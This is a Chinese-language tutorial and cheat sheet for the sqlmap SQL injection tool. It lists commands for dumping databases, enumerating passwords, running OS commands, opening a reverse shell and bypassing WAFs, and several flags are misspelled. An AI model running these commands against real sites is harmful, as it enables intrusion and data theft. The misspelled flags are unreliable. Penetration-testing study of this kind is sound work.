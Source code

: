 ```yaml
---
title: Sqlmap
date: 2021-04-18 21:59:50
author: sec
---
```

<font color='red' >sqlmap是针对sql注入的一个开源的工具,它具有功能强大的检测引擎，有针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令等。</font>
# 
下面讲解一下sqlmap的使用方法：
# sqlmap流程
1. 判断是否是注入点
`sqlmap.py -u "目标ip"`使用-u参数指定URL，如果存在注入点将会显示出Web容器，数据库版本信息。
2. 获取数据库
`sqlmap.py -u "目标ip" --dbs` 使用--dbs获取数据库
3. 查看当前应用程序所用数据库
`sqlmap.py -u "目标ip" --current-db`用--current-db参数列出当前应用程序使用的数据库
4. 列出指定数据库的所有表
`sqlmap.py -u"目标ip" --table -D "数据库名"当前应用程序数据库"`使用--table参数获取数据库表，-D参数指定数据库
5. 读取指定表中的字段名称
`sqlmap.py -u "目标ip" --columns -T "表名"-db "数据库名"` 使用--columns参数列取字段名
6. 读取指定字段内容
`sqlmap.py -u "目标ip" --dump -C"字段名,字段名···" -T"[表名]"-db "数据库名"` --dump参数意为转存数据，-C参数指定字段名称，-T指定表名。数据库关键字要加[]，-D指定数据库名称

# sqlmap参数
1. 测试注入点权限

		sqlmap.py -u[URL] --privileges					//测试net user命令
		sqlmap.py -u[URL] -- privileges -U sa			//测试sa用户权限
2. 执行shell命令
		
		sqlmap.py -u[URL] --os-cmd="net user"		//执行net user命令
		sqlmap.py -u[URL] --os-shell						//系统交互的shell
3. 获取当前数据库名称

		sqlmap.py -u[URL] --current-db
4. 执行SQL命令
	
		sqlmap.py -u[URL] --sql-shell						//返回SQl交互的shell，可以执行SQL语句
		sqlmap.py -u[URL] --sql-query="sql"
5. POST提交方式

		sqlmap.py -u[URL] --data "POST 参数"
6. 显示详细的等级

		sqlmap.py -u[URL] --dbs -v 1
		-v参数包含以以下7个
			0：只显示python回溯，错误和关键消息
			1：显示信息和警告消息
			2：显示调试消息
			3：有效载荷注入
			4：显示HTTP请求
			5：显示HTTP响应头
			6：显示HTTP响应页面的内容
7. 注入HTTP请求
		
		sqlmap.py -r head.txt --dbs				//head.txt内容为HTTP请求
8. 直接连接到数据库

		sqlmap.py -d "mysql://admin:admin@192.168.1.8:3306/testdb" --dbs
9. 注入等级

		sqlmap.py -u [URL] --level 3
10. 将注入语句插入到指定位置

		sqlmap.py -u [URL/1*.html] --dbs
		有些网站采用了静态页面，sqlmap注入就没有办法了。sqlmap提供了*参数将sql语句插入到指定位置。
11. 使用sqlmap插件

		sqlmap.py -u [URL] -tamper "插件名"
		SQLMap自己带了很多插件可以针对注入的SQL语句进行编码等操作，插件保存在SQLMap目录下的tamper文件夹中，这些插件通常用来绕过WAF
12. 常用的SQLMap参数如下：

参数|说明
--|--
-b|获取banner
-p|指定测试参数
-g|从Google中获取URL,-g"inurl:aspx?id="
--gpage=GOOGLEPAGE|指定Google页码
--union-check|是否支持union注入
--union-cols|union查询表记录
--union-test|union语句测试
--union-use|蚕蛹union注入
--proxy|代理注入
--theads|蚕蛹多线程
--user-agent|自定义user-agent
--referer=REFERER|HTTP refer头
--proxy=PROXY|使用代理
--string|指定关键字
--tor|创建tor的匿名网络
--predict-output|常见的查询输出预测
--keep-alive|使用持久HTTP(S)连接
--eval=EVALCODE|使用HTTP参数污染
-a,-all|查询所有
--hostname|主机名
--is-dba|是否是管理员权限
--users|枚举所有的用户
--passwords|枚举所有的用户密码
--roles|枚举所有的用户角色
--schema|枚举DBMS模式
--count|检索所有的条目数
--dump|转存DBMS数据库表项目，需要制定字段名称（列名称）
--dump-all|转存DBMS数据库所有的表项目
--search|搜索列，表或者数据库名称
--exclude-sysdbs|在枚举表时排除系统数据库
--sql-query=query|执行SQL语句
--file-read=RFILE|读取操作
--file-write=WFILE|写入操作
--file-dest=DFILE|绝对路径写入
--reg-read|读取一个Windows注册表值
--reg-add|增加一个Windows注册表值数据
--reg-del|删除一个Windows注册表值数据
--reg-key=REGKEY|Windows注册表键
--reg-value=REGVAL|Windows注册表键值
--reg-data=REGDATA|Windows注册表的键值项数据
--reg-type=REGTYPE|Windows注册表键的值类型
--dump-format=DUMP|转存数据格式(CSV(default),HTML或SQLITE)
--hex|使用十六进制数据检索功能
--output-dir=ODIR|自定义输出的目录路径
--updata|更新SQLMap
--purge-output|安全删除所有内容的输出目录
--check-waf|启发式检查WAF/IPS/IDS保护
--os-pwn|反弹shell
--cookie=COOKIE|指定HTTP Cookie，预登录
--random-agent|使用随机的User-Agent头
--tamper=TAMPER|使用SQLMap插件
--level|测试等级(1~5)，默认为1


